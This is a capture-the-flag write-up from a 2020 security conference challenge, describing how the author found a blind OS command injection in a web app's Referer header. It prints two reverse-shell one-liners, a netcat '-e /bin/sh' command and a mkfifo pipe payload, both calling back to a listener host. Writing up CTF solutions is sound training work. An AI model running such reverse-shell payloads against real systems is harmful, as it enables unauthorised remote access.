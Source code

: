 
# #CTFFriday January 2020 W5 - {WEB}
*January 31, 2020 (2 to 3 PM)*

Hi! I am [Bipin Jitiya](https://win3zz.com), working as security analyst at [Net Square Solutions Pvt. Ltd.](https://www.net-square.com/) In this post I am writing about a CTF which was organized as a part of the [NSConclave 2020](https://nsconclave.net-square.com/) event. Unfortunately I did not play on the day of the event. Many challenges were solved by several players, but none were able to solve one challenge, which was later hosted as **#CTFFriday**. 

This CTF was built by [Bhargav Gajera](https://twitter.com/bhargavgajera10) and organized by [Net Square Solutions Pvt. Ltd.](https://www.net-square.com/) and [NSConclave](https://nsconclave.net-square.com/) on January 31, 2020. So the following is my detailed write-up on how I solved that challenge.

## The game begins!

The task name was **WEB**, where only one URL was provided. As the name suggests, a web application was hosted at the mentioned URL.
 
![1](https://user-images.githubusercontent.com/12781459/203560066-721c4a9a-1c93-4e1b-941e-a132caa772a4.png)

I started with the general web application testing approach. I crawled all the web pages, and started looking for any hints in the **HTML** and **JavaScript** comments (in source code).

![2](https://user-images.githubusercontent.com/12781459/203560144-8e2b3c6f-6230-4a05-83de-ba1c68452b68.png)

I also checked **robots.txt** for files and directories hidden from search engines, but that file does not exist on the target server. After all the analysis, I noticed that there is a **page** parameter that changes its value when navigating to a different page. I quickly tested this for **Directory traversal vulnerability** using some standard payloads but no success.
 
![3](https://user-images.githubusercontent.com/12781459/203560178-ff41213b-666a-4be6-8a5f-12d12b224992.png)

As usual, when I don't get anything, I start **enumeration**. This time also I launched a dictionary based attack against the web server. I simply started **brute force directories and files** in websites using intruder. Obviously we can do this using the **dirb** and **dirsearch** tools. Some CTF challenges also have hints in the "404 Not Found" page, **dirb** and **dirsearch** may not mark those webpages at that time. I did not want to leave any stone unturned. As a result I got a **sitemap.xml** file. It contains an URL entry [https://www.127.0.0.1/index.php?page=admin](https://www.127.0.0.1/index.php?page=admin) 

![4](https://user-images.githubusercontent.com/12781459/203560200-e4229055-a307-46c8-9e6a-f456a1752986.png)

When I opened that URL from the browser, it automatically redirected me to the homepage. This seemed interesting, I intercepted the same request in burp and started the weird test by adding some extra parameters like username and password, started fuzz on those parameters with random payloads, but to no effect.

![5](https://user-images.githubusercontent.com/12781459/203560221-a7ddd3ed-4d83-40d7-9e7c-c422a21cd74e.png)

The response contains the string "**log:**" so added a new Log header with a random string as the value, but again no effect.

![6](https://user-images.githubusercontent.com/12781459/203560252-e35be2c8-409c-433b-8ac8-dc282da0586e.png)

After wasting a lot of time on that, I felt that the response **user requesting from** might be some kind of hint.

I thought **user requesting from** means the previous web page from which a link to the currently requested page was followed. That process is done by the **Referer** request header. I quickly added a **Referer** request header and its value was reflected back into the response body.

![7](https://user-images.githubusercontent.com/12781459/203560282-56a4acd9-5145-41cd-a528-44ed47069888.png)

After fuzzing on the **Referer** request header, I found that it was vulnerable to blind OS command injection. I tried to get the reverse shell using the following command: 

```console
root@ns:~# nc -e /bin/sh 192.168.43.101 7171
```
![8](https://user-images.githubusercontent.com/12781459/203560315-79029206-474c-4b18-944f-f1849b1ff880.png)

It was not connecting. I thought there might be some problem with **nc**. I remembered a [post](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) about how to get reverse shell when wrong version of netcat is installed. I got the reverse shell using following payload:

```console
root@ns:~# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1192.168.43.101 7171 >/tmp/f
```
![9](https://user-images.githubusercontent.com/12781459/203560343-10d0bd0c-9b0e-408f-bc72-7d577e3fdc70.png)

It worked! I got the flag after executing some commands!
 
![10](https://user-images.githubusercontent.com/12781459/203560372-abb5a53b-1368-442d-8b50-8c8236fb13a5.png)

## Scoreboard
![Screenshot from 2020-01-31 15-43-14 - Copy](https://user-images.githubusercontent.com/12781459/203568597-820377e1-0274-4431-a5c5-4b1fe47ae145.png)


Thanks for reading. Keep learning.

Stay safe and healthy 😇
